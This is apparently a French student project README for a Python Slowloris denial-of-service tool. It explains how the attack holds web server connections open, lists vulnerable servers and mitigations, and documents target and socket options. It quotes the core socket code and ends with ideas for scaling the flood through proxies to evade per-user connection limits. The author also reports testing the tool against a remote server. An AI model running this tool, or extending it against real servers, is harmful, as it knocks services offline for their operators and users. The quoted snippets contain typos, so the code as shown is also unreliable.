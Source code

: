 # Python pour la securite
  - ### [1. Introduction](#1-Introduction)
  - ### [2. Fonctionnement](#2-Fonctionnement)
  - ### [3. Difficultees rencontrees](#3-Difficultees-rencontrees)
  - ### [4. Ameliorations](#4-Ameliorations)

## 1. Introduction

 L'attaque slow loris permet de faire un ddos sur un serveur en se servant que d'une seule machine. 
 Slowloris essaie de garder le maximum de connexions ouvertes avec le webserver cible et essaie de les garder ouvertes aussi longtemps que possible. 
 Dès que le slowloris a ouvert une connection il va garder la garder ouverte en envoyant des requêtes incomplètes qu'il va compléter lentement au fur et à mesure mais ne les finira jamais. 
 Les serveurs affectés verront leur nombre maximum de connections atteint et peuvent refuser les nouvelles connections d'utilisateurs.
Les serveurs majoritairement touchés par l'attaque slowloris sont:
- Apache 1.x and 2.x
- dhttpd
- Flask

Il existe des modules pour apache qui permetent de réduire la chance d'une attaque slowloris tel que: 
- mod_limitipconn
- mod_qos, mod_evasive
- mod security
- mod_noloris
- mod_antiloris

Il existe d'autres méthodes pour se protéger tel qu'installer un:
- reverse proxy
- firewall
- load balancer
- content switches

Si aucune de ces solutions n'est envisageable il est toujours possible de placer son webserver derrière un nginx ou lighthttpd qui ne sont pas affectés par cette attaque.
## 2. Fonctionnement
Afin de faire fonctionner ce programme, il est necessaire d'installer certaines dependances. Les commandes a executer pour avoir un environnement d'execution sont les suivantes :
 * `virtualenv env`
 * `source env/bin/activate`
 * `pip install -r requirements.txt`

 Ensuite il est possible de choisir certaines options:
 - a: Host to perform attack on, default localhost
 - p: Port of the server, default = 80
 - s: Max socket to use
 - d: Debug mode


 Dans un premier temps, il est necessaire de recuperer le type de serveur que l'on souhaite attaquer : 
 * Par exemple, un serveur apache 1.x/2.x permettra une attaque optimal.
 * A contrario, attaquer un WebServeur tournant avec le framework NodeJS a partir de la version 8 est inutile

 Pour recuper le type de serveur, on envoie une requete get : </br>
 * `sock.send("GET / HTTP/1.1\r\n\r\n".encode("ascii"))`</br>

Puis on analyse le retour </br>
*  `HTTP/1.1 400 Bad Request
Date: Wed, 10 Jul 2019 16:18:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1
`

Pour l'initialisation des sockets on envoie trois requêtes:
```Python
s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000).encode("utf-8"))
s.send("User-Agent: {}\r\n".format(ua.USER_AGENT[random.randin(0,29)]).encode("utf-8"))
s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5".encode("utf-8"))
```
Dans l'ordre:
- La première initialise la connection
- La deuxième envoie le user agent utilisé choisi aléatoirement dans la pool des user agents.
- La troisième dit quelles sont les langues acceptées.

-> A l'initialisation le slowloris va essayer d'initier autant de connections que l'on a demandé.

Il va ensuite les garder en vie en les complétant toutes les 15 secondes avec:
```Python
s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
```
Il va ensuite essayer à nouveau d'ouvrir des connections jusqu'à atteindre la limite que l'on a fixé.
 ```Python
 for _ in range(self.target_info.sockets_number - len(self.sockets_list)):
    try:
        s = self.init_socks()
        if s:
            self.sockets_list.append(s)
```
Par la suite le slowloris va calculer la latence en faisant une requête dans un thread à part.

```Python
if not latence.is_alive():
    latence.run()
```
```Python
response = requests.get(self.url).elapsed.total_seconds()
```





## 3. Difficultees rencontrees
La principale difficultees fut d'ordre materiel, en essayant l'attaque sur un serveur distant, la box internet ma "banni", il etait impossible d'acceder a aucun site web en dehors, impossible d'utiliser un dns.

La seconde difficultee fut de comprendre que les serveur nodes n'etaient pas affectees. Le programme semblait fonctionel mais aucun ralentissement ne fut observé. Ensuite installer un serveur apache est un defi de taille.

Hormis cela, aucune difficultée majeures ne fut rencontrées.


## 4. Ameliorations
Les améliorations possibles sont nombreuses:
- Détection automatique du serveur et optimisation des paramètres.
- Détection automatique du timeout serveur pour les requêtes.
- Détection du nombre de connection maximum du serveur pour pouvoir choisir le niveau de ddos que l'on veut (un peu, beaucoup, moyen)
- Utilisation de proxy pour permettre d'ouvrir un plus grand nombre de connections quand il y a un nombre limité par utilisateur.
